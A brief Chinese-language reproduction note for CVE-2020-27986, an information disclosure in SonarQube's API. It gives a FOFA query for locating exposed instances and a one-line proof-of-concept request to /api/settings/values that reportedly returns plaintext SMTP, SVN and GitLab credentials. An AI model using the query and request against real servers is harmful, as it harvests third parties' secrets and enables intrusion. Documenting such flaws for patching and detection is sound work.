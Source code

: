 # SonarQube-api-信息泄露漏洞-CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> SonarQube

## FOFA

> [!NOTE]
>
> app="sonarQube-代码管理"

## 漏洞复现

主页如下

![image-20210627221618861](SonarQube-api-信息泄露漏洞-CVE-2020-27986.assets/1627363137742113.jpg)

漏洞POC

```
http://xxx.xxx.xxx.xxx/api/settings/values
```

![image-20210627221628431](SonarQube-api-信息泄露漏洞-CVE-2020-27986.assets/16273631379937139.jpg)

可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![image-20210627221640310](SonarQube-api-信息泄露漏洞-CVE-2020-27986.assets/1627363138291788.jpg)

## Goby & POC

> [!NOTE]
>
> SonarQube api Information leakage

![image-20210627221650998](SonarQube-api-信息泄露漏洞-CVE-2020-27986.assets/16273631386961439.jpg)

